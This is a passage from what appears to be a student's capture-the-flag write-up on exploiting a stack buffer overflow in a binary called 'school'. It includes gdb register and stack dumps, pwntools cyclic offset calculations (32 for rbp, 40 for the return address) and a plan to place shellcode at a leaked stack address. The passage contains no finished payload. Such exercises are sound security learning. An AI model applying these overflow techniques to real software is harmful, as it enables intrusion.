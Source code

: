 ```
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdef8  →  0x00007fffffffe271  →  "COLORFGBG=15;0"
$r14   : 0x0               
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
```
###### Stack:
```
0x00007fffffffddd8│+0x0000: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"    ← $rsp
0x00007fffffffdde0│+0x0008: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x00007fffffffdde8│+0x0010: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffddf0│+0x0018: "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffddf8│+0x0020: "saaataaauaaavaaawaaaxaaayaaa"
0x00007fffffffde00│+0x0028: "uaaavaaawaaaxaaayaaa"
0x00007fffffffde08│+0x0030: "waaaxaaayaaa"
0x00007fffffffde10│+0x0038: 0x0000000061616179 ("yaaa"?)
```
###### `rbp` = `0x6161616a61616169` ("iaaajaaa"?)
```python
──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3                 
>>> from pwn import *
>>> cyclic_find('iaaa')
32
```
So the 32nd input ends up overwriting `rbp` (maybe due to the leave command?)
###### And the top of the stack starts with "kaaa"
```python
>>> cyclic_find('kaaa')
40
```
Confirming where we are segfaulting

Now if this program loaded in anything good, I would use this to call that BUT IT DOESN'T so now I have to make code that will execute and put it on the stack...gross

Though the problem is, I need to make sure it calls an address on the stack...and those change
Wait, it did give us that address
###### Address offset
```
──(kali㉿kali)-[~/Desktop/5-Week]
└─$ pwn cyclic 100 > inp
 ┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ gdb ./school -q
gef➤  r < inp
Let's go to school! School's at: 0x7fffffffddb0. gimme directions:
Hi, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
gef➤  x 0x7fffffffddb0
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400681 in main ()
0x7fffffffddb0: 0x61616161
```
We KNOW that's the first line but...just to be sure:
```
>>> cyclic_find(b'\x61\x61\x61\x61')
0
```
